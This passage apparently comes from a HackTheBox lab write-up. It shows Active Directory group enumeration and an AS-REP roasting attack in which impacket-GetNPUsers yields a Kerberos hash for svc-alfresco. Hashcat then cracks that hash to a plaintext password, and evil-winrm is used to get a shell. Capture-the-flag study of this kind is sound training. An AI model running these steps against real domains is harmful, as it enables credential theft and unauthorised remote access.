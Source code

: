 ```
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```
- I have a list of accounts from my RPC enumeration above. I’ll start without the SM* or HealthMailbox* accounts
```
─$ cat users.txt
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco  
```
- use the Impacket tool GetNPUsers.py to try to get a hash for each user, and I find one for the svc-alfresco account
 ```
 for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done 

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:7d06e635b0cb7138687d07f29a62982b$619acf894e16cd1ae0d57dd8141e959877c40de6017951af9d4a184a95206178b9ce3472ac9ba50fce4ab1ec5e6c2d0c7bc858bb787821b104e46f71840a0fb21b690901628f465dd6019362b56de9299930a5bddb2ffcc1aa790751f29b996c11375088d119aceb8f8aa6cb5d879289ba3af46b02303f2fced38f2b3d68095db642b8d4a49ac4520479402e4c938a9ec5eb8a87704e667e17061675af6ff0d2099d4b66eb39fbd0e6fb2d96be81707915eb055eff3cad1b1933dee6ad7f32b86c8ad93e78adf99b30193eb286a611c717653609359fdde08c85569ff7c0ba86
 ```
- use hashcat to break the hash
```
hashcat -m 18200 svc.kerb /usr/share/wordlists/rockyou.txt --force
```
- hashcat gave password s3rvice
- now try evilwinrm with these creds and we got a shell we see its port open whuch is 5985